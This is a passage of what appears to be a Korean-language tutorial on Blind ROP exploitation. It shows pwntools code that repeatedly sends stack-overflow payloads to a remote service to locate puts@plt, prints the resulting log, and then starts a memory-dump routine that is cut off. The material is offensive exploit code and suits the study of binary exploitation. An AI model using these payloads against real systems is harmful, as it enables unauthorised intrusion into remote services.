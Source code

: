 ### **Get puts@plt address**

해당 프로그램이 puts, printf 사용한다고 가정한다.  
해당 바이너리에 PIE 설정되지 않았기 때문에 프로세스의 기본시작 주소는 0x400000이고 해당 주소엔 "x7fELF"가 저장되어 있다.  

즉, 다음과 같이 addr의 값을 증가시키면서, 화면에 "\x7fELF"가 출력된다면 해당 주소는 puts의 주소라고 판단할 수 있다.

```python
def find_puts_addr(size,stop_gadget,rdi_ret):
    p = log.progress('Searching for the address of puts@plt')
    for offset in range(0x0,0x1000):
        addr = base + offset

        if addr % 0x100==0:
            log.info('Progressed to 0x%x' % offset)

        payload = 'a'*size
        payload += p64(rdi_ret)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_gadget)

        r = remote(ip,port,level='error')
        r.recvline()
        r.sendline(payload)
        try:
            recv = r.recv(timeout=0.2)
            print(recv)
            if recv.startswith('x7fELF'):
                p.success('Done')
                log.success('find puts@plt addr: 0x%x' % addr)
                return addr
            r.close()
        except Exception as e:
            r.close()
```

```
[+] Searching for the address of puts@plt : Done
[*] Progressed to 0x100
[*] Progressed to 0x200
[*] Progressed to 0x300
[*] Progressed to 0x400
[*] Progressed to 0x500
[+] find puts@plt addr: 0x400555
[+] Puts plt : 0x400555
```

### **Dump Memory**

앞에서 찾은 puts@plt주소를 이용하여 프로그램 메모리를 덤프가 가능하다. 

```python
def memory_dump(size,stop_gadget,rdi_ret,puts_plt):
    now = base
    end = 0x401000
    dump = ""

    p=log.progress('Memory dump')
    while now < end:
        #print(hex(now))
        if now % 0x100==0:
            log.info('Progressed to 0x%x'%now)

        payload = 'A'*size
        payload += p64(rdi_ret)
```